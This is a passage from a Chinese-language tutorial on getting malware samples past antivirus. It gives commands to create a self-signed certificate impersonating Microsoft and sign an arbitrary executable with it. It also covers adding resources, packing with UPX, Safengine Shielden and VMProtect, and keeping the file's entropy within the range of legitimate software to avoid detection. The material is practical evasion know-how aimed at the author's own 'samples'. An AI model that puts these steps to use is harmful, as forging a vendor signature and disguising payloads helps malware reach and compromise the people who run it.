L=Redmond, S=Washington, C=US" -a sha256 -cy end -sky signature -ic Microsoft.cer -iv 
Microsoft.pvk -sv Microsoft.pvk Microsoft.cer
pvk2pfx -pvk Microsoft.pvk -spc Microsoft.cer -pfx Microsoft.pfx
通过自签名文件添加到exe
signtool sign /f Microsoft.pfx /t http://timestamp.digicert.com /fd SHA256 要签名的.exe
```


## 3.2加资源

Resource Hacker
添加exe程序 --> 操作 --> 从资源文件添加


## 3.3加壳

### upx

upx是一款压缩壳, 针对exe文件进行代码压缩, 压缩后的文件体积会小于原始文件

UPX 提供了不同的压缩级别，级别越高，压缩率越大，但压缩和解压缩的速度可能会减慢。压缩级别范
围是从 1 到 9。数字越高，表示压缩级别越高，对文件大小的减小也越明显

```
upx -9 main.exe
```

### Shielden

Safengine Shielden 软件保护加壳工具是一款能够帮助用户对自己电脑上各种文件程序进行加壳免杀的
Windows操作平台功能性保护工具，它可以帮助用户对自己需要进行保护的文件程序进行加壳处理拥有
强大的虚拟机代码保护系统，能够让你的文件程序无需担心被逆向工程破解入侵，拥有专业级的加密操
作，保护你的文件不被恶意修改。


### vmp

MProtect Software 3.5是一款给软件增加防护的工具。俗称vmp加壳。它能够帮你给软件加一层防护。防止被破解反编译。
打开选择exe文件, 然后编辑


## 3.4文件的熵值

Entropy（熵）能被用于衡量系统的混乱程度，熵值越大，说明混乱程度越高。熵也被用于检测PE文件病毒, 一般一些合法软件的熵值在 4.8 - 7.2 之间
有阶段 样本


无阶段 样本


所以我们制作好样本(加壳), 一定要检查文件的熵值, 经量保存在 4.8 - 7.2 之间